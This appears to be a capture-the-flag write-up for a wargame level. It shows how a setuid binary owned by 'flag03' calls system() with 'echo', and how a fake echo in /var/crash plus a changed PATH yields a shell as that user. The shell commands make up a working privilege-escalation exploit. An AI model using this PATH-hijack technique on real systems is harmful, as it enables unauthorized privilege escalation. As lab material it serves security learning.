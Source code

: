 Check the permissions of the file:

```
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

The binary is owned by flag03.

Check symbols using nm:

```
getegid@@GLIBC_2.0
geteuid@@GLIBC_2.0
setresgid@@GLIBC_2.0
setresuid@@GLIBC_2.0
system@@GLIBC_2.0
```

The binary don't call write but call system then we can guess it use **echo**.

Previously we find a directory where we can write files in **/var/crash**. We can create a fake echo and update the path to force system to call our fake echo:

```
$ echo "/bin/bash" > /var/crash/echo
$ chmod +x /var/crash/echo
$ export PATH="/var/crash"
$ ./level03
```

Then we have a shell launched by flag03.
